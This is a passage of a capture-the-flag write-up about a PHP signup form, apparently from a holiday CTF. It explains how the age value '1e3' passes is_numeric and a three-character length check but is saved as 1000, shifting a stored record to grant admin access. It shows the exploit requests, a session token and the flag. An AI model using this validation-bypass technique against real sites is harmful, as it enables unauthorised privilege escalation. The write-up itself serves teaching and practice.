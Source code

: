 We need a way to trick the validation into letting us save just one extra chracter in our input to push the N away, and let us use our Y instead.

The age processing in the validation stood out to me because the data that gets saved isn't exactly the same as the data that gets validated. Pasting it again here:

```php
if (!is_numeric($_POST["age"])) {
    $errors[] = 'Age entered is invalid';
}
if (strlen($_POST["age"]) > 3) {
    $errors[] = 'Age entered is too long';
}
$age = intval($_POST["age"]);
```
`$_POST["age"]` has our age as a string. `is_numeric` checks that it can be interpreted as an integer. We then check it's string length, and then save it _as an integer_. I looked at the [documentation of is_numeric](https://www.php.net/manual/en/function.is-numeric), and saw that it accepts a bunch of formats as numeric, such as binary, hexadecimal, or scientific notation. Running a few tests I found out that I could set my age to `1e3`. This value passes the `is_numeric` check, has a string length of 3 which passes, but saves as it's integer value, `1000`. This will give us the one character we need to push the pesky `N` away.

## Running the Exploit


**Request:**
```
POST /signup-manager/
action=signup&username=q38&password=123&age=1e3&firstname=123&lastname=aaaaaaaaaaaaaaY
```

```
HTTP/1.1 302 Found
Set-Cookie: token=870fa22f8c9727d9e1b527499bb55457; expires=Mon, 21-Dec-2020 17:40:35 GMT; Max-Age=3600
Location: /signup-manager/
```

**Request:**
```
GET /signup-manager/ HTTP/1.1
Cookie: token=870fa22f8c9727d9e1b527499bb55457
```

```html
<body>
<div class="container" style="margin-top:20px">
    <div class="text-center"><img src="/assets/images/grinch-networks.png" alt="Grinch Networks"></div>
    <h1 class="text-center" style="margin:0;padding:0">Admin Area</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3" style="margin-top:15px">
            <div class="alert alert-info">
                <p class="text-center">flag{99309f0f-1752-44a5-af1e-a03e4150757d}</p>
                <p class="text-center">You made it through, continue to your next task <a href="/r3c0n_server_4fdk59">here</a></p>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```
